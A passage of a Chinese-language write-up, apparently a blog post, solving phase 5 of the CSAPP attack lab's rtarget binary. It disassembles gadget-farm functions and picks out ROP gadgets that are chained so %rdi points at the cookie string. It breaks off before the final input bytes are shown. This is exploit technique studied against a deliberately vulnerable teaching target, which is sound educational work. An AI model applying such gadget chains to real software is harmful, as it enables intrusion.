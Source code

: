    过关截图
      ![Wrong](img/csapp-lab-writeup/rtarget_2_2.png)
- **phase5**
  - 在这一关中，主要会用到如下几个函数

      ```cpp
      0000000000401a03 <addval_190>:
        401a03: 8d 87 41 48 89 e0     lea    -0x1f76b7bf(%rdi),%eax
        401a09: c3                    retq
      00000000004019d6 <add_xy>:
        4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
        4019da: c3                    retq
      00000000004019a0 <addval_273>:
        4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
        4019a6: c3                    retq
      ```

    其中分别提取出可利用的gadgets

      ```cpp
      401a06: 48 89 e0              movq %rsp, %rax
      401a09: c3                    retq

      4019d8: 04 37                 add 0x37, %al
      4019da: c3                    retq

      4019a2: 48 89 c7              movq %rax, %rdi
      4019a5: c3                    retq
      ```

    这些gadgets组合起来，可以获得指定偏移量的栈地址。如果将cookie字符串写入至此地址上，则可以达到 **%rdi指向cookie字符串** 这个目的，这样便可以通过当前关卡。

    使用效果如下
      ![Wrong](img/csapp-lab-writeup/rtaget_3_1.png)
  - 最后的输入数据如下
    > 注意第13行只有7个字节，并非笔者的疏忽
